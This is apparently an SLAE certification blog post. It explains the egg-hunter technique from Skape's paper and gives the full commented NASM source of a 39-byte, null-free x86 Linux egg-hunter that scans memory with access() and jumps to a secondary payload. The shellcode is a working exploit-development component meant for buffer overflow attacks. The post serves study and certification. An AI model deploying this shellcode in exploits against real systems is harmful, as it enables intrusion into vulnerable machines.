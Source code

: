 ## SLAE Exam Assignment 3 - Creating an Egg-hunter shellcode

## Prologue
The third assignment for our SLAE Certification exam is creating an egg-hunter shellcode in such a way so as to make it's secondary payload configurable.

Egg-hunter remains an extremely important topic for study by exploitation analysts and rightfully so. 

So without any further ado, let's get down with it!

## So what is an egg-hunter anyway?
Imagine that you have found a buffer overflow exploit in a vulnerable software running in a remote machine but the buffer size or the space controlled by you is not nearly enough to fit a Bind/Reverse TCP shellcode :(

What do you do then?

Enter the Egg-hunter.

![Eggs](../assets/images/eggs.jpg "Eggs")

As many before me and also the ones who will be attempting this exam after me, there is one paper that stands out of all and is referenced by almost everyone perhaps because of it's simplicity and brilliance that is: [Safely Searching Process Virtual Address Space](https://github.com/upayansaha/SLAE-Code-Repository/blob/master/Assignment%203/egghunt-shellcode.pdf) by Skape.

I would recommend all the readers of this blog to read the paper first and then come back here.

I shall not discuss the paper in-depth in this blog-post. However, I shall mention some key concepts required for the analysis and implementation of an egg-hunter payload.
### Egg-hunter payload explained in a sentence
The egg-hunter is a shellcode usually optimized and small in size which is designed to find the final stage larger shellcode marked by an "egg"(4-8 bytes of data) and redirect execution flow to it once it finds it in the virtual address space.
### But how does it work?
The way the egg-hunter works is by iterating through the pages of memory and looking for the "egg" until its found.

Okay okay I get it but as far as I knew when a program tries to read unallocated memory in Linux, the program will crash throwing a `SIGSEGV` right?

Here comes Skape's out-of-the-box solution. He has devised a way to use the `access()` syscall to check whether a page of memory is accessible or not by using the memory address as argument and by checking the error code returned by the syscall, we can determine whether the page is accessible or not. This enables us to scan the memory safely.

Needless to say, if the page is inaccessible then it should skip to the next page directly otherwise it should continue scanning the page looking for our "egg".
### One final note
One last important matter to discuss is what should we consider as this "egg" that we are talking about?

Some implementations of the egg-hunter dictate the condition that the egg itself must be an executable for the egg-hunter to transfer the execution flow to the secondary payload stored somewhere else in memory.

Also, a single instance(4 bytes) of the egg shall be present in the egg-hunter itself so as to enable it to find it in memory by comparison right? Now there might be a scenario where the egg-hunter accidentally finds itself in process's memory thinking it has found the egg when it actually hasn't. So we must keep the egg as something unique.

In light of these issues, Skape has devised an 8-byte executable egg by simply appending the egg to itself making it unique and easily identifiable in the memory. While this is not strictly mandatory but in order to avoid adding unnecessary overheads and complexities, we shall also be using the original "egg" for the purposes of this blog post.

## Egg-hunter Assembly code
Here's the full assembly source of the egg-hunter shellcode:

```nasm
; Filename: egg-hunter_shellcode.nasm
; Author: Upayan a.k.a. slaeryan
; SLAE: 1525
; Contact: upayansaha@icloud.com
; Purpose: This is a x86 Linux null-free egg-hunter shellcode implementing Skape's 
; first technique using access() syscall
; Compile with:
; ./compile.sh egg-hunter_shellcode
; Size of shellcode: 39 bytes


global _start

section .text
_start:

    mov ebx, 0x50905090    ; Moving the 4-byte egg to EBX register
    xor ecx, ecx           ; Clearing ECX register
    mul ecx                ; Clearing EAX and EDX

    ; Function to skip to next page
    turn_page:             
    or dx, 0xfff           ; Bitwise OR of DX value - To load 4095 in DX

    ; Function to check whether the following 8 bytes of memory in the current page is accessible or not
    check_page:
    inc edx                ; Increment EDX to make it a multiple of 4096 [PAGE_SIZE]
    pushad                 ; To preserve the current register values in stack
    lea ebx, [edx+0x4]     ; Load the address of the next 8 bytes in EBX to check
    mov al, 0x21           ; Load Syscall value for access() = 0x21 OR 33 in EAX
    int 0x80               ; Executing access() syscall
    cmp al, 0xf2           ; Comparing the return value in AL to 0xf2 == EFAULT
    popad                  ; Restore the register values as we preserved in the stack
    jz turn_page           ; Jump to next page if we got EFAULT otherwise continue

    ; Now that we know the page is accessible, we will search for our target!
    cmp [edx], ebx         ; Check if we got the egg in [EDX]
    jnz check_page         ; If not zero - Egg not found! Check the next 8 bytes of the page otherwise if zero - we already found the first 4 bytes of the egg
    cmp [edx+0x4], ebx     ; Check the next 4 bytes [EDX+4] to confirm the kill
    jnz check_page         ; If not zero - Egg wasn't found, false positive! otherwise if zero - mission accomplished - egg found successfully!
    jmp edx                ; Transfer control to the secondary payload
```

There's not much to exaplain in this source as I have commented in-detail on almost every line of code. 


